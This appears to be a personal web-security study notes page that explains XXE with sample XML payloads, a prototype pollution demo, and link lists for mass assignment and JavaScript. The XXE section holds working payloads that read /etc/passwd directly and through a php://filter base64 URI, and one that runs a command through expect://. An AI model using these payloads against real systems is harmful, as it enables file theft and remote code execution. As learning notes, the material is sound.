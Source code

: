 ## XXE:  
Entities declaration: this type of entity declaration is called internal declaration as everything is defined inside the same document and nothing needs to be fetched externally.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
```

**External entities**:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://www.prakharprasad.com/external.xml">
]>
<student>&sname;</student>
```  

**Simple XXE attack: reading files**.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
	<name>&oops;</name>
</student>
```  

**Simple XXE attack: PHP Base64 conversion URI as an alternative**. (php://filter/convert.base64-encode/resource=/file/to/read)  
```
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<student>
	<name>&pwn;</name>
</student>
```  

**RCE thtough XXE**:  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">]>
<student>
	<name>&rce;</name>
</student>
```  

## Prototype Pollution:  
```
var book = {bookName: "Book name", authorName: "Author of book"};
console.log(book.toString())
//output: “[object Object]”

book.__proto__.toString = ()=>{alert("polluted")}
console.log(book.toString())
// alert box pops up: “polluted”

IMAGE: alert pops up with value “polluted”
```
**Additional resources**:  
https://www.mend.io/resources/blog/prototype-pollution-vulnerabilities/  
https://guidesmiths.github.io/cybersecurity-handbook/attacks_explained/prototype_pollution  
https://youtu.be/W9_x8pc_bh8  
https://youtu.be/Z6CtDSx8C5k


## MASS ASSIGNMENT ATTACK:

**Additional information**:  
https://youtu.be/r1j0COUMTqw  

## ONLINE DECOMPILER:  
https://dogbolt.org  

## JavaScript:  

**Additional information**: 
1. HTTP Networking: https://www.freecodecamp.org/news/http-full-course/  
2. 
